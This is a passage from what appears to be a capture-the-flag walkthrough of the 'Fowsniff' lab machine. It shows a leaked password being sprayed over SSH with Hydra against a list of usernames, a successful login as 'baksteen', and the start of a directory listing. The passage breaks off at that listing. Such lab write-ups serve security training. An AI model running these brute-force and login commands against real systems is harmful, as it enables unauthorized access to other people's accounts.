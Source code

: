 ```bash
```
{: .nolineno }

`S1ck3nBluff+secureshell`

In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

```bash
➜  hydra -L usernames.txt -p "S1ck3nBluff+secureshell" ssh://10.10.148.76
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-17 23:27:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.10.148.76:22/
[22][ssh] host: 10.10.148.76   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-17 23:27:40
```
{: .nolineno }


### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

```bash
➜  ssh baksteen@10.10.148.76
The authenticity of host '10.10.148.76 (10.10.148.76)' can't be established.
ED25519 key fingerprint is SHA256:KZLP3ydGPtqtxnZ11SUpIwqMdeOUzGWHV+c3FqcKYg0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.76' (ED25519) to the list of known hosts.
baksteen@10.10.148.76's password:

                            _____                       _  __  __
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|
-:      y.      dssssssso                ____
-:      y.      dssssssso               / ___|___  _ __ _ __
-:      y.      dssssssso              | |   / _ \| '__| '_ \
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _
-:      o.      yssssssso               \____\___/|_|  | .__/  (_)
-:    .+mdddddddmyyyyyhy:                              |_|
-: -odMMMMMMMMMMmhhdy/.
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! ****

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ ls -la
total 40
drwxrwx---  4 baksteen baksteen 4096 Mar 13  2018 .
```